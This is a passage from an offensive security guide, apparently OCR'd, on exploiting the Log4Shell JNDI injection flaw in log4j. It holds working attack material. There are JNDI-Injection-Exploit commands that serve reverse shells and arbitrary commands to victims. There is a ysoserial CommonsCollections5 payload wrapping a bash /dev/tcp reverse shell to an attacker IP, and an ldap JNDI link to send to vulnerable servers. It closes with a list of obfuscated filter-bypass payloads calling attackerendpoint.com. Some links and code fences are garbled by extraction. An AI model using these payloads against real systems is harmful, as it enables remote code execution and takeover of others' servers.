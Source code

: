 ```
In a similar way to the previous exploit, you can try to use [[https://github.com/pimps/JNDI-Exploit-Kit|**JNDI-Exploit-Kit**]] to exploit this vulnerability.\
You can generate the URLs to send to the victim running:

```bash
# Get reverse shell in port 4444 (only unix)
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -L 172.17.0.1:1389 -J 172.17.0.1:8888 -S 172.17.0.1:4444

# Execute command
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -L 172.17.0.1:1389 -J 172.17.0.1:8888 -C "touch /tmp/log4shell"
```
```
_This attack using a custom generated java object will work in labs like the **THM solar room**. However, this won’t generally work (as by default Java is not configured to load remote codebase using LDAP) I think because it’s not abusing a trusted class to execute arbitrary code._

### RCE - JNDI-Injection-Exploit-Plus

[[https://github.com/cckuailong/JNDI-Injection-Exploit-Plus|https://github.com/cckuailong/JNDI-Injection-Exploit-Plus]] is another tool for generating **workable JNDI links** and provide background services by starting RMI server,LDAP server and HTTP server.\

### RCE - ysoserial & JNDI-Exploit-Kit

This option is really useful to attack **Java versions configured to only trust specified classes and not everyone**. Therefore, **ysoserial** will be used to generate **serializations of trusted classes** that can be used as gadgets to **execute arbitrary code** (_the trusted class abused by ysoserial must be used by the victim java program in order for the exploit to work_).

Using **ysoserial** or [[https://github.com/pimps/ysoserial-modified|**ysoserial-modified**]] you can create the deserialization exploit that will be downloaded by JNDI:

```bash
# Rev shell via CommonsCollections5
java -jar ysoserial-modified.jar CommonsCollections5 bash 'bash -i >& /dev/tcp/10.10.14.10/7878 0>&1' > /tmp/cc5.ser
```
```
Use [[https://github.com/pimps/JNDI-Exploit-Kit) to generate **JNDI links** where the exploit will be waiting for connections from the vulnerable machines. You can server **different exploit that can be automatically generated** by the JNDI-Exploit-Kit or even your **own deserialization payloads** (generated by you or ysoserial|**JNDI-Exploit-Kit**]].

```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -L 10.10.14.10:1389 -P /tmp/cc5.ser
```
```
![[<../../images/image (1118).png>|]]

Now you can easily use a generated JNDI link to exploit the vulnerability and obtain a **reverse shell** just sending to a vulnerable version of log4j: **`${ldap://10.10.14.10:1389/generated}`**

### Bypasses

```java
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//attackerendpoint.com/}
${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://attackerendpoint.com/}
${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://attackerendpoint.com/}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attackerendpoint.com/z}
${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attackerendpoint.com/}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://attackerendpoint.com/}
${${::-j}ndi:rmi://attackerendpoint.com/} //Notice the use of rmi
```